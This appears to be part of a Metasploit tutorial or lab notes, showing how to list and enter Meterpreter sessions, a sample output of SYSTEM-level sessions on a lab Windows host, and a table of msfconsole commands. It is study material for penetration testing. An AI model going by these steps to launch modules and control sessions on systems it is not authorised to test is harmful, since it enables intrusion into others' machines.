 ```bash
sessions
```

###  Interact with a Specific Session

```bash
sessions -i 2
```

You’ll now have a Meterpreter or command shell interface with the target.

---

##  Active Sessions Example

```bash
msf6 > sessions

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49163
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ JON-PC  10.10.44.70:4444 -> 10.10.12.229:49186
```

---

## 📌 Summary Table

|Command|Purpose|
|---|---|
|`set PARAM VALUE`|Set a module parameter|
|`setg PARAM VALUE`|Set global value across modules|
|`unset PARAM`|Clear a single parameter|
|`unset all`|Clear all parameters for the current module|
|`unsetg PARAM`|Clear a global value|
|`exploit` / `run`|Launch the module|
|`exploit -z`|Launch and background session|
|`check`|Verify if target is vulnerable|
|`sessions`|List all active sessions|
|`sessions -i ID`|Interact with a session|
|`background` / `CTRL+Z`|Background the session|

---